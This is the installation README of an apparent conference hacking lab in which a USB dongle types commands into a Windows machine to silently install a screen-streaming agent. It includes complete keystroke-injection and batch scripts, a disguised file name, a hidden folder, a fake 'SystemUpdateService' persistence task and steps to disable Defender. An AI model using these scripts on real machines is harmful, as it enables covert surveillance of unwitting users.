


<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [CyberPassport Technical Installation Guide](#cyberpassport-technical-installation-guide)
  - [Lab 04: Pull the Screen: VNC Remote View Attack](#lab-04-pull-the-screen-vnc-remote-view-attack)
  - [Table of Contents](#table-of-contents)
  - [Overview](#overview)
  - [Which Document To Use](#which-document-to-use)
  - [Required Lab Materials](#required-lab-materials)
    - [Hardware and Software Requirements](#hardware-and-software-requirements)
      - [Dongles and Drives](#dongles-and-drives)
      - [Computers and Smart Phones](#computers-and-smart-phones)
      - [Install Computer Software Requirements](#install-computer-software-requirements)
      - [Build Computer Software Requirements](#build-computer-software-requirements)
      - [Setup and Lab Computer Software Requirements](#setup-and-lab-computer-software-requirements)
  - [Key Setup Notes](#key-setup-notes)
  - [Repository Layout](#repository-layout)
  - [Getting Started](#getting-started)
  - [Install Workflow](#install-workflow)
    - [Prerequisites](#prerequisites)
      - [macOS Install and Prep Machine](#macos-install-and-prep-machine)
      - [Windows Install and Build and Compile Machine](#windows-install-and-build-and-compile-machine)
  - [Install Scripts](#install-scripts)
    - [`mac-setup.sh`](#mac-setupsh)
    - [`setup-labs.sh`](#setup-labssh)
    - [`provision.sh`](#provisionsh)
  - [Build and Compile Workflow](#build-and-compile-workflow)
    - [Build and Compile Requirements](#build-and-compile-requirements)
  - [Setup and Lab Workflows](#setup-and-lab-workflows)
    - [Setup Requirements](#setup-requirements)
      - [Victim Windows Machine](#victim-windows-machine)
  - [Troubleshooting](#troubleshooting)
  - [Adding a New Lab](#adding-a-new-lab)
  - [Templates](#templates)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# CyberPassport Technical Installation Guide

## Lab 04: Pull the Screen: VNC Remote View Attack

**Category:** Red Team Ridge | **Difficulty:** Mixed | **Duration:** 15–25 minutes

---

## Overview

A USB-based keyboard emulation attack that silently installs a lightweight agent on a Windows victim machine, which then streams the victim's live desktop over a USB-serial connection to the LilyGo T-Dongle S3. The dongle bridges that connection to its own Wi-Fi hotspot, allowing an attacker to view the victim's screen from any device with a browser. 

---

## Which Document To Use

- `README.md`: this document - technical reference for full install, setup, build/compile, flashing, host verification, and project structure
- `PARTICIPANT.md`: concise conference handout for attendees
- `FACILITATOR.md`: answer key, timing, hints, expected answers, and troubleshooting

---

## Required Lab Materials

These are the minimum requirements to make the lab run successfully. Note that none of the steps in this lab were tested on a Chromebook running Lubuntu.

Definitions of each phase of the lab:

**Install**: To download and prepare app code, scripts, and helper files  
**Build**: To compile app code, copy scripts, and helper files to Micro-SD card  
**Setup**: To setup or reset the victim machine  
**Lab**: To prepare, test, and complete the attack

---

### Hardware and Software Requirements

---

#### Dongles and Drives

| Device | Nick Name | Install | Build | Setup | Lab |  
|:-------------|:-------|:---:|:---:|:---:|:---:|    
| LilyGO T-Dongle S3 (ESP32-S3) | LilyGo | [y] | [y] | [y] | [y]  
| USB Drive or Micro-SD Card[^size] | SETUPDISK | [y] | [y] | [^micro] | [^micro] | 
| Micro-SD Card[^size] | USBAGENT | [y] | [y] | [y] | [y] | [y] |   

[^micro]: SETUPDISK can only be used in the lab if it is a Micro-SD card that can be inserted into the LilyGo.  
[^size]: disk operations work faster if the capacity is <= 32GB.  

---

#### Computers and Smart Phones

| HW | OS | Function | Install | Build | Setup | Lab | Special [^special] |  
|---------|------|------|:---:|:---:|:---:|:---:|:---:|     
| **macBook** | MacOS | Install and Build | [y] | [^part] | [n] | [n] | [y] |  
| **PC Laptop** | Windows 10/11 x64 | Build and Compile | [y] | [y] | [y] | [y] | [y] |  
| **PC Laptop** | Windows 10/11 | Victim | [n] | [n] | [y] | [y] | [n][^same] |   
| **Smart Phone** | iOS or Android | Viewer | [n] | [n] | [n] | [y] | [n] |   

[^special]: Does this machine require special software to be installed to complete it's function?  
[^part]: the MacOS script automates the install, configuration, and disk operations of most of the software, except for the compile parts that need to be completed on a Windows machine for the attack executables and libraries.  
[^same]: For the purposes of the function, the Victim Machine does not need any special software installed as the LilyGo dongle and MicroSD card should install and start the agent during the attack. However, If the Build/Compile and Victim machine are the same, then the singular machine can perform both functions without causing issues with the other function.

---

#### Install Computer Software Requirements

The automated scripts were built on MacOS, but the code may be refactored to be run from other OS's. In addition to required software, many install and build steps may require administrative (`root` access).

| HW | OS | Software | Description | Installed by |  
|:-------------|:-----------|:-----|:-----|:-----|  
| MacBook | MacOS | Xcode Command Line Tools | Development tools | `mac-setup.sh` |  
| "" | "" | HomeBrew | CLI tool to manage development tools | [Installation Instructions](https://docs.brew.sh/Installation) |  
| "" | "" | Python, GitHub CLI, Git CLI | Python & Git CLI tools | `brew install python3 gh git` |  
| "" | "" | esptool | LilyGo flash tool for Command Line (optional) | `pip3 install esptool` |  
| "" | "" | Google Chrome | LilyGo flash tool (optional) | [Download Google Chrome](https://chrome.googgle.com/) |  

---

#### Build Computer Software Requirements

In addition to these software requirements, many of the build and setup steps will require administrative access and to run PowerShell 7 As Administrator.

| HW | OS | Software | Description | Installed by |  
|:-------------|:-----------|:-----|:-----|:-----|  
| PC Laptop | Windows 10/11 x64 | PowerShell 7 [^power] | Command-Line for Windows Build/Compile | `Win_Prep.ps1` \<OR\> `winget install -id Microsoft.PowerShell --source winget` |  
| "" | "" | .NET 8.0 SDK | Windows development tools | `Win_Prep.ps1` \<OR\> `winget install Microsoft.DotNet.SDK.8` |  
| "" | "" | Microsoft Visual Studio 2022 C++ Build Tools | develop/compile tools | `Win_Prep.ps1` \<OR\> `winget install -e --id Microsoft.VisualStudio.2022.BuildTools --override "--passive --wait --add Microsoft.VisualStudio.Workload.VCTools;includeRecommended"` |  
| "" | "" | GitHub CLI | GitHub CLI | `Win_Prep.ps1` \<OR\> `winget install --id GitHub.cli --source winget` |  
| "" | "" | Git CLI | Git CLI | `Win_Prep.ps1` \<OR\> `winget install --id Git.Git --source winget` |  

[^power]: To verify the version of `powershell` running on the Windows machine, run this command: `$PSVersionTable.PSVersion`  

---

#### Setup and Lab Computer Software Requirements

| Function | HW | OS | Software | Description | Installed by |  
|:-----------|:-------------|:-----------|:-----|:-----|:-----|  
| Victim | PC Laptop | Windows 10/11 x64 | none[^admin] | n/a | n/a |  
| Viewer | Smart Phone or Laptop | Any OS | Internet Browser | App Store or Google Play |  

[^admin]: Setup and Reset functions require administrative access on the Windows Victim Machine in order to interact with C:\Windows\System32 folder and to manage Scheduled Tasks

---

## Key Setup Notes

This lab has requirements that differ from the others. Read these before provisioning the victim machine.

> **Windows Defender, Tamper Protection, and Anti-Virus Protection must be disabled on the victim machine.** `Agent.exe` (aka `dns_checker.exe`) is an unsigned executable that Defender will quarantine silently. This is the most common failure point for this lab.

- 1 Windows victim workstation (Windows 10 or 11, 64-bit)
- 1 LilyGo T-Dongle S3 flashed with USBArmyKnife firmware
- 1 micro-SD card formatted FAT32 containing: `autorun.ds` and `agent.img`
	- `agent.img` contents: `dns_checker.exe` (renamed from `Agent.exe`)[^name], `in1.bat`, `turbojpeg.dll`, `vcruntime140.dll`
- 1 participant device with a browser (phone or laptop)
- LilyGo dongle's WiFi hotspot
- Flag displayed on the victim desktop (wallpaper, open document, or slideshow)

>  [^name]: **Obfuscation note:** [Changing the name](https://github.com/t3l3machus/PowerShell-Obfuscation-Bible#Rename-Objects) of attack files helps avoid being caught by Windows Defender and other defensive tools. Real-life hackers tend to use multiple techniques.

---

## Repository Layout

These are the files and folders that should exist after the install, build, compile, and prep steps are all completed.

```
labs/04-pull-the-screen/
├── agentimg										# disk image with Windows agent attack executables and libraries
│   ├── dns_checker.exe
│   ├── turbojpeg.dll
│   ├── vcruntime140.dll
│   └── in1.bat									# Windows script file that copies Agent files to local HD and initiates attack by starting Agent
├── agentroot										# root folder of Micro-SD card with agent attack scripts
│   ├── autorun.ds
│   └── agent.img								# disk image file, built from files in ./agentimg/
├── FACILITATOR.md						# handout and guide for volunteer or facilitator of lab
├── firmware										# firmware binaries to flash LilyGo dongle with latest USBArmyKnife firmware
│   ├── boot_app0.bin
│   ├── bootloader.bin
│   ├── firmware.bin
│   ├── firmware.elf
│   └── partitions.bin
├── mac-setup.sh								# MacOS script to download and prepare for build, compile, and flash tasks
├── PARTICIPANT.md						# handout with directions for lab participant who attempts to complete the challenge
├── README.md								# This file - technical details for install, build, setup, and support for lab
└── Win_Prep.ps1								# Windows Build and Compile and station reset script
```

---

## Getting Started

Most of the tasks for setup, build, and compile are automated - using a MacBook and a Windows setup computer (can also be the Windows victim computer). If all the necessary files have been downloaded, compiled, and the `agent.img` file created (and the files are recent), then you'll just need to complete the [Station Prep Workflow](#station-prep-workflow).

---

## Install Workflow

This workflow steps through downloading and preparing firmware binaries, agent source files for executables, and autorun scripts. If you have completed these steps already, jump forward to the [Build and Compile Workflow](#build-and-compile-workflow) section.

The automation and steps were written for a MacOS Install Workstation. They can also be refactored for the Lubuntu or other platforms.

---

### Install Software Requirements

Most of the software packages listed in these sections will be installed via the automation, however, it may be quicker and smoother to install them individually.

      - [Install Computer Software Requirements](#install-computer-software-requirements)

---

#### macOS Full Install Steps

These are the full installation steps covered by the automation (and are provided if the `mac-setup.sh` script fails or needs to be refactored to another OS). If you have already flashed the firmware, then proceed to the  [Build and Compile Workflow](#build-and-compile-workflow) section.

> + Some of these steps may require and administrative (`root`) access.

---

##### Verify and Empty Install Folders

To start the full setup, verify these folders exist and have all files deleted

```zsh
rm -rf agentroot agentimg firmware
mkdir -p agentroot agentimg firmware
```

---
   
##### Download LilyGo Firmware Binaries

> This task is only necessary *if* the `./firmware` folder is empty or your LilyGo dongle has not been flashed with a working copy of the `USBArmyKnife` firmware. All files are necessary to properly flash the firmware onto the LilyGo dongle.

1. Download the `boot_app0.bin` firmware
	- Download from <https://raw.githubusercontent.com/espressif/arduino-esp32/master/tools/partitions/boot_app0.bin>
	- Save to `./firmware` folder
2. Download the `USBArmyKnife` binaries
	- Navigate to <https://github.com/i-am-shodan/USBArmyKnife> >> Actions >> (latest `master` branch Merge) >> `LILYGO-T-Dongle-S3 Firmware binaries`
	- Unzip the files inside the downloaded archive to the `./firmware` folder
3. Verify the `./firmware` folder contains these files

```zsh
boot_app0.bin
bootloader.bin
firmware.bin
firmware.elf
partitions.bin
```

---

##### Prep Compile Files and Windows Script

1. Insert a USB or SD card into a port on the MacBook
2. Format inserted disk (optional)

```zsh
# list all mounted disks -> find "/dev/disk#"
diskutil list

# unmount and format disk -> replace # with actual number
diskutil unmountDisk /dev/disk#
diskutil eraseDisk FAT32 SETUPDISK MBRFormat /dev/disk#
```

3. Copy Windows script to disk with: `cp ./Win_Prep.ps1 /Volumes/SETUPDISK`
4. Eject the disk with: `diskutil eject /dev/disk#`
5. Pull disk from port and plug into Windows Prep Machine for [Windows Install and Build and Compile Steps](#windows-install-and-build-and-compile-steps)

---

## Build and Compile Workflow

---

### Build and Compile Software Requirements

Most of the software packages listed in these sections will be installed via the automation, however, it may be quicker and smoother to install them individually. Run all commands in a PowerShell 7 terminal window As Administrator.

      - [Install Computer Software Requirements](#install-computer-software-requirements)
      
---

### Windows Install and Build and Compile Steps

Insert the USB or SD disk into a port on the Windows Install/Build/Compile/Setup Machine (one computer) with the `Win_Prep.ps1` script from the MacOS machine. These steps are literally what this script does.

---

#### Build and Compile Agent Executables and Libraries

1. Download the Agent source files from GitHub: `git clone "https://github.com/i-am-shodan/USBArmyKnife.git" $env:TEMP\USBArmyKnifeClone`
2. Compile and Publish with Native AOT

```powershell
# Compile with Native AOT
Push-Location "$env:TEMP\USBArmyKnifeClone\tools\Agent"
    
# Restore dependencies
dotnet restore | Out-Null
    
# Publish as Native AOT Executable
$buildOut = dotnet publish -r win-x64 --self-contained true -c Release /p:OutputType=Exe /p:PublishAot=true

Pop-Location    
```

3. Copy files to USB or SD drive (replace E:\ with actual drive letter and folder on USB or SD drive)

```powershell
Get-ChildItem "$env:TEMP\USBArmyKnifeClone\tools\Agent\bin\Release\net8.0-windows\win-x64\publish" | Copy-Item -Destination E:\ -Force
```

4. Remove Git folder to clean up

```powershell
Remove-Item $env:TEMP\USBArmyKnifeClone\tools\Agent\bin\Release\net8.0-windows\win-x64\publish -Recurse -Force -ErrorAction
```

5. Rename `Agent.exe` to `dns_checker.exe`

```powershell
# Rename ONLY the Executable
Move-Item "E:\Agent.exe" -Destination "E:\dns_checker.exe" -Force
```

6. Eject disk from the WIndows Prep Machine and insert back into MacOS machine

---

### MacOS Build Steps

These steps finish off the work needed on the MacOS. Once the Micro-SD card is loaded and the LilyGo dongle firmware is flashed, you'll be ready to test the attack on a Windows victim machine.

---

#### Build Autorun Script Files

1. Copy this text and save as `./agentimg/in1.bat`

```powershell
@echo off
setlocal enabledelayedexpansion

REM --- CONFIGURATION ---
set "SRC_DIR=%~dp0"
set "TARGET_DIR=C:\Users\Public\Documents\.sys_update"
set "EXE_NAME=dns_checker.exe"
set "TASK_NAME=SystemUpdateService"
set "VID=%1"
set "PID=%2"
set "LOG_FILE=%TARGET_DIR%\install.log"
set "SSID_NAME=iPhone14"
set "SSID_PROFILE=iPhone14"

REM --- 1. INITIALIZE LOG ---
echo [INFO] ========================================== > "%LOG_FILE%"
echo [INFO] Starting Attack Sequence at %date% %time% >> "%LOG_FILE%"
echo [INFO] VID=%VID% PID=%PID% >> "%LOG_FILE%"

REM --- 2. WAIT FOR USB MOUNT ---
echo [INFO] Waiting 15 seconds for USB mount... >> "%LOG_FILE%"
timeout /t 15 /nobreak >nul

REM --- 3. ENSURE WIFI CONNECTION (Critical for VNC) ---
echo [INFO] Checking WiFi connection... >> "%LOG_FILE%"
netsh wlan show interfaces >nul 2>&1
if errorlevel 1 (
    echo [ERROR] No WiFi interface found. >> "%LOG_FILE%"
    goto FAIL_EXIT
)

REM Check if connected to our SSID
for /f "tokens=2 delims=:" %%a in ('netsh wlan show interfaces ^| findstr /C:"SSID"') do set CURRENT_SSID=%%a
set CURRENT_SSID=!CURRENT_SSID: =!

if "!CURRENT_SSID!" NEQ "!SSID_NAME!" (
    echo [INFO] Not connected to !SSID_NAME!. Connecting... >> "%LOG_FILE%"
    netsh wlan disconnect >nul 2>&1
    timeout /t 2 /nobreak >nul
    netsh wlan connect name=!SSID_PROFILE! ssid=!SSID_NAME! >nul 2>&1
    timeout /t 5 /nobreak >nul
    
    REM Verify connection
    for /f "tokens=2 delims=:" %%a in ('netsh wlan show interfaces ^| findstr /C:"SSID"') do set CURRENT_SSID=%%a
    set CURRENT_SSID=!CURRENT_SSID: =!
    if "!CURRENT_SSID!" NEQ "!SSID_NAME!" (
        echo [WARN] Failed to connect to !SSID_NAME!. Proceeding anyway... >> "%LOG_FILE%"
    ) else (
        echo [SUCCESS] Connected to !SSID_NAME!. >> "%LOG_FILE%"
    )
) else (
    echo [SUCCESS] Already connected to !SSID_NAME!. >> "%LOG_FILE%"
)

REM --- 4. COPY FILES ---
if not exist "%TARGET_DIR%" mkdir "%TARGET_DIR%"
echo [INFO] Copying files... >> "%LOG_FILE%"

copy /Y "%SRC_DIR%turbojpeg.dll" "%TARGET_DIR%\" >nul 2>&1
copy /Y "%SRC_DIR%vcruntime140.dll" "%TARGET_DIR%\" >nul 2>&1
copy /Y "%SRC_DIR%vcruntime140_1.dll" "%TARGET_DIR%\" >nul 2>&1
copy /Y "%SRC_DIR%dns_helper.dll" "%TARGET_DIR%\" >nul 2>&1
copy /Y "%SRC_DIR%dns_rt.dll" "%TARGET_DIR%\" >nul 2>&1
copy /Y "%SRC_DIR%dns_lib.dll" "%TARGET_DIR%\" >nul 2>&1
copy /Y "%SRC_DIR%%EXE_NAME%" "%TARGET_DIR%\%EXE_NAME%" >nul 2>&1

if not exist "%TARGET_DIR%\%EXE_NAME%" (
    echo [ERROR] Copy failed! >> "%LOG_FILE%"
    goto FAIL_EXIT
)
echo [SUCCESS] Files copied. >> "%LOG_FILE%"

REM --- 5. KILL OLD INSTANCES ---
taskkill /F /IM "%EXE_NAME%" >nul 2>&1
timeout /t 2 /nobreak >nul

REM --- 6. START AGENT ---
echo [INFO] Launching agent... >> "%LOG_FILE%"
cd /d "%TARGET_DIR%"
start /B "" "%EXE_NAME%" vid=%VID% pid=%PID%

REM --- 7. VERIFICATION LOOP (The "Ensure" Step) ---
echo [INFO] Verifying Agent is Running (Max 90s)... >> "%LOG_FILE%"
set "WAIT_COUNT=0"
:VERIFY_LOOP
set /a WAIT_COUNT+=1

REM Check 1: Is the process running?
tasklist /FI "IMAGENAME eq %EXE_NAME%" 2>nul | findstr /I "%EXE_NAME%" >nul
if errorlevel 1 (
    echo [WARN] Process %EXE_NAME% not found (Attempt !WAIT_COUNT!). >> "%LOG_FILE%"
    if !WAIT_COUNT! GTR 45 (
        echo [ERROR] Agent process failed to start. >> "%LOG_FILE%"
        goto FAIL_EXIT
    )
    timeout /t 2 /nobreak >nul
    goto VERIFY_LOOP
)

REM Check 2: Is the marker file created?
if exist "%TARGET_DIR%\agentInstalled" (
    echo [SUCCESS] Agent confirmed running (Marker found)! >> "%LOG_FILE%"
    goto SUCCESS_EXIT
)

REM Check 3: Is the port open? (Optional, harder to check from batch)
REM Just wait for the marker

timeout /t 2 /nobreak >nul
if !WAIT_COUNT! GTR 45 (
    echo [ERROR] Timeout waiting for agentInstalled marker. >> "%LOG_FILE%"
    goto FAIL_EXIT
)
goto VERIFY_LOOP

:SUCCESS_EXIT
echo [INFO] ========================================== >> "%LOG_FILE%"
echo [SUCCESS] ATTACK SUCCESSFUL. Agent is running. >> "%LOG_FILE%"
echo [INFO] ========================================== >> "%LOG_FILE%"

REM --- 8. CREATE PERSISTENCE TASK ---
schtasks /Delete /TN "%TASK_NAME%" /F >nul 2>&1
schtasks /Create /TN "%TASK_NAME%" ^
    /TR "\"%TARGET_DIR%\%EXE_NAME%\" vid=%VID% pid=%PID%" ^
    /SC ONLOGON ^
    /RL HIGHEST ^
    /F >nul 2>&1

if errorlevel 1 (
    echo [WARN] Could not create scheduled task. >> "%LOG_FILE%"
) else (
    echo [SUCCESS] Persistence task created. >> "%LOG_FILE%"
)

goto END

:FAIL_EXIT
echo [INFO] ========================================== >> "%LOG_FILE%"
echo [FAILURE] ATTACK FAILED. Check logs above. >> "%LOG_FILE%"
echo [INFO] ========================================== >> "%LOG_FILE%"

:END
exit /b 0
```

2. Decide which `autrun.ds` script to use. The edited version below has a couple delay commands to slow down the attack to wait for Windows to detect and mount the serial device
  - Download the original file from GitHub: 
  `curl -fsSL -o "./agentroot/autorun.ds" "https://raw.githubusercontent.com/i-am-shodan/USBArmyKnife/master/examples/install_agent_and_run_command/us-autorun.ds"`
  - Copy and paste the below edited version and save as `./agentroot/autorun.ds`

```
REM USBArmyKnife VNC Attack - US Keyboard Layout
REM Requires agent.img on the SD card containing:
REM   dns_checker.exe, in1.bat, turbojpeg.dll, vcruntime140.dll

LOG Starting VNC attack script
DEFINE #FILE /agentInstalled

REM Only install if this is the first run on this machine
IF (FILE_EXISTS() == FALSE) THEN
    LOG agentInstalled flag not found - proceeding with install
    LOG Mounting agent disk image
    USB_MOUNT_DISK_READ_ONLY /agent.img

    REM Wait for Windows to enumerate and mount the virtual drive
    WAIT_FOR_USB_STORAGE_ACTIVITY
    DELAY 6000

    REM Close any foreground window that might intercept GUI R
    REM Pressing Escape clears focus from any active window without closing it
    ESCAPE
    DELAY 500

    REM Open Run dialog - retry with a longer lead-in delay so Win+R
    REM registers before STRING fires
    LOG Opening Run dialog
    GUI R
    DELAY 2000

    REM Inject the install command into the Run dialog.
    REM Searches drives D-H for in1.bat and runs it with device VID/PID.
    REM #_VID_ and #_PID_ are injected at runtime by the USBArmyKnife firmware.
    LOG Injecting install command
    STRING cmd /c @echo off & for %d in (D E F G H) do if exist %d:\in1.bat call %d:\in1.bat #_VID_ #_PID_
    ENTER

    LOG HID injection complete
    LOG Waiting for file copy and agent launch to complete

    REM Give Windows time to run in1.bat, copy files, and start the agent
    DELAY 3000
    WAIT_FOR_USB_STORAGE_ACTIVITY_TO_STOP
    DELAY 2000

    REM Write the flag file so we skip install on next plug-in
    CREATE_FILE()

    REM Reset drops the USB mass storage device so the virtual drive disappears
    REM and the dongle re-enumerates in serial mode for agent communication
    LOG Resetting to serial mode
    RESET
END_IF

LOG Install block complete - waiting for agent to connect
LOG If agent does not connect within 30s check: Windows Defender protection history

WHILE (AGENT_CONNECTED() == FALSE)
    DELAY 2000
END_WHILE

LOG Agent connected successfully
LOG Starting VNC stream
```

---

#### Copy and Verify Build Files

1. Insert the USB or SD drive just pulled from the WIndows Prep Machine
2. Copy the files to the setup folder `cp /Volumes/SETUPDISK ./agentimg/`
3. Eject the USB or SD drive and set aside if not a Micro-SD card
4. Verify all files and folders are in place for `./agentimg, ./agentroot, and ./firmware` folders and compare with [Repository Layout](#repository-layout)

---

#### Build Attack Micro-SD Card

1. Build the image file for Agent files

```zsh
dd if=/dev/zero bs=1m count=125 of=./agentroot/agent.img

# find reference to disk image for next commands
DISK=$(hdiutil attach -nomount agent.img | awk '{print $1}`)
echo "disk $DISK"

# format image file as FAT32 and copy Agent files
diskutil partitionDisk $DISK MBR FAT32 AGENTDISK 100%
cp -r ./agentimg/* /Volumes/AGENTDISK/

# eject image file
hdiutil detach $DISK
```

2. Insert the Micro-SD card into a port on the MacOS machine
3. Format the physical disk

```zsh
# list all mounted disks -> find "/dev/disk#"
diskutil list

# unmount and format disk -> replace # with actual number
diskutil unmountDisk /dev/disk#
diskutil eraseDisk FAT32 USBAGENT MBRFormat /dev/disk#
```

4. Copy the script files and Agent disk image file: `cp -r ./agentroot/* /Volumes/USBAGENT/`
5. Eject Micro-SD card: `diskutil eject /dev/disk#` (replace # with actual disk number)

---

### Flash LilyGo Firmware

These steps can be completed on any machine with access to the Google Chrome or MS Edge browser and a working USB-A port

1. Ensure the firmware binary files are in the `./firmware` folder
2. Hold the LilyGo dongle button down
3. insert the dongle into an available USB port (it might need another dongle if the machine only has USB-C ports)
4. Continue holding down the dongle button for 2 seconds
5. Check the LCS screen - it should be blank
6. Open the Google Chrome or MS Edge browser and navigate to <https://esp.huhn.me>
7. Click the Connect button, select the serial port your LilyGo dongle is connected to, and click on the Connect button



8. Upload firmware binary files and enter paired offset values as shown below. The order of the files is not important, but the offset to binary is vital



9. Click the Program button to begin the flash process
10. Watch the output window for progress and possible errors
11. Do not unplug the LilyGo until you see ***Done!*** in the output window (or some kind of error)
12. Unplug the LilyGo dongle and test out on any computer!

---

## Setup and Lab Workflows

This section is almost entirely working on the Windows Victim Machine, except to copy files from Install or Setup machines

---

### Setup Requirements

> Setup and Reset steps require administrative access on the Windows Victim Machine
> No special software need be installed, however, here are general guidelines for the Windows Victim Machine
>   - [Setup and Lab Computer Software Requirements](#setup-and-lab-computer-software-requirements)

Also note the Windows Victim Machine must be a Windows 10 or 11 (64-bit) machine with:
- Administrator access
- Unrestricted USB ports
- Windows Defender, Virus Protection disabled
- A version 3.1+ USB-A port for the LilyGo

---

### Windows Victim Machine Setup Steps

1. Login to the Windows Victim machine
2. Ensure the current user has ability to perform tasks as an administrator (e.g., Open PowerShell 7 As Administrator)
3. Make sure the USB ports are at least version 3.1 (use Device Manager to check)
4. Disable Windows Defender and Tamper Protection
  - Open Settings -> Privacy & Security -> Windows Security -> Virus & Threat Protection
  - Click Manage Settings
  - Turn Real-Time Protection to OFF
  - Turn Tamper Protection to OFF
5. Disable or turn off any other Security or Anti-Virus Protection software
6. Set the flag on the victim desktop
  - This could be an image or text file opened so that the participant can see the "flag" (words or image) and complete the task
  - The flag must be visible without the participant touching the keyboard or mouse or having to click on anything
  - Example: [Nancy Reagan "Just Say No"](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Ftse4.mm.bing.net%2Fth%2Fid%2FOIP.Pcnux0Hyo9o9HbnX5uP6HQHaD4%3Fpid%3DApi&f=1&ipt=57ad1dda7136e289e90b9261862645943dfd18078a13d1baddc506244a37f3f5&ipo=images)
7. Ensure all LilyGo dongles and all other USB devices have been removed

---

### Lab Participant Action Steps

1. Prior to the lab exercise, participant should have completed these tasks
	- flash the `USBArmyKnife` firmware to their LilyGo dongle
	- formatted and copied the Agent disk image and autorun.ds script onto a Micro-SD card
	- Properly inserted the Micro-SD card into the LilyGo dongle
	- Removed any file named `agentInstalled` from the root of the Micro-SD card
2. Insert their flashed LilyGo dongle into an available USB port on the Windows Victim Machine
3. Watch the LCD screen on the LilyGo for messages or errors
4. Wait a minute to allow the attack to run
5. Connect to the WiFi to complete the challenge
	- Participant opens their own device with a browser
	- Connects to the `iphone14` WiFi access point and using `password` for the password
6.  Load the USBArmyKnife dashboard
	- Navigates to `http://4.3.2.1:8080`
	- Checks the `Agent Status` that it says `Connected`
7. Connects to Victim via VNC service
	- Navigates to the `VNC` tab and clicks on `Connect`
	- Waits for the screen to show and reports the flag to the volunteer

---

### Windows Victim Machine Reset Steps

> If the Install and Setup steps were performed on the Windows Victim Machine using the `Win_Prep.ps1` script, then this command should be available to reset the lab station - and can be run from anywhere in a PowerShell 7 window As Administrator: `Win_Prep.ps1 --Action Reset`

Manual steps if the script does not work or is not setup on the Windows Victim Machine
1. Stop all running processes for the lab

```powershell
# check for all tasks matching Agent executable
tasklist /FI "IMAGENAME eq dns_checker.exe" | findstr /I "dns_checker.exe"

# kill all running processes matching Agent executable
taskkill /F /IM "dns_checker.exe"
timeout /t 2 /nobreak
```

2. Remove the attack directory: ` Remove-Item -Path C:\Users\Public\Documents\.sys_update -Recurse -Force`
3. Remove any related tasks (`SystemUpdateService, or Security Script`)
	- Stop and delete tasks in Task Manager \<OR\>
	- Run these commands
	
```powershell
Unregister-ScheduledTask -TaskName SystemUpdateService -Confirm:false
Unregister-ScheduledTask -TaskName "Security Script" -Confirm:false
```

4. Clear the Clipboard and DNS cache

```powershell
Set-Clipboard -value "$null"
ipconfig /flushdns
```

---

## Troubleshooting

| Symptom | Fix |
|---------|-----|

| Agent never connects | 1. Disable Windows Defender on victim machine. 2. Delete `agentInstalled` from SD card root. 3. Retry. [^agent] |  
| Dongle crash dump on boot | SD card filesystem issue. Follow steps to [Build Attack Micro-SD Card](#built-attack-micro-sd-card). |  
| VNC shows Connecting but never connects | Known upstream noVNC issue. Refresh the browser page. |  
| Can't reach `http://4.3.2.1:8080` | Device not connected to iPhone14 hotspot, or OS silently switched back to regular Wi-Fi. Reconnect and confirm staying on that network |  
| `autorun.ds` says payload already running | Normal - the script auto-runs after plug-in. Do not run it again from the UI. |  
| Drive letter not found (D-H) | The script searches drives D through H. If the `agent.img` virtual drive lands on a different letter, the install fails. Unplug other USB storage devices to allow the lower letter drive letters to become available. |  
| Flag not visible | The Victim machine must have a slideshow or looped video showing the flag. Restart the show and have the participant connect again. |  

